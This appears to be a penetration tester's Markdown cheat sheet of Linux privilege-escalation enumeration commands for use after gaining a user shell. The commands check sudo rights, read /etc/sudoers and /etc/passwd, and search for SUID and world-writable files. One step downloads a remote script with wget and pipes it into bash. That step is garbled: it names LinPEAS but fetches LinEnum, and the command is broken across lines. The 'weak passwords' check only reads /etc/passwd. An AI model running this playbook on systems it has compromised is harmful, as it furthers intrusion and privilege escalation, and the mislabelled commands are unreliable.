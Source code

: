 **After gaining the access to the user shell:**

### **Check User Privileges**
	`whoami`
	`groups`
	`id`
### **Check for Sudo Privileges**
	`sudo -l`
	`sudo -ll`	
### **Check for Elevated Privileges**
	`sudo -v`
### **Check for Misconfigurations**
	`sudo cat /etc/sudoers`

### **Check for SUID Binaries**
	`find / -perm -4000 2>/dev/null`
###  **Check for World-Writable Files**
	`find / -writable -type f 2>/dev/null`
### **Check for Kernel Exploits**
	`uname -r`
### **Check for Potential Exploits**
	**LinPEAS**: Run a script like LinPEAS to automate the enumeration process.
	`wget -O linpeas.sh 
	
	`https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh && bash 
	linpeas.sh`
### **Check for SSH Keys**
	**List SSH Keys**: Check for SSH keys that might provide access to other users
	
	`ls -l ~/.ssh/authorized_keys`

### **Check for Docker**
	`docker info`

### **Check for Cron Jobs**
	`crontab -l`

###  **Check for Running Services**
	`systemctl list-units --type=service`

### **Check for Misconfigured Services**
	`**Services Configuration**: Check the configuration files of running services 
	for misconfigurations.`

	`ls /etc/service_name/`
	
### **Check for Weak Passwords**
	`cat /etc/passwd`

### **Check for Misconfigured SELinux**
	`sestatus`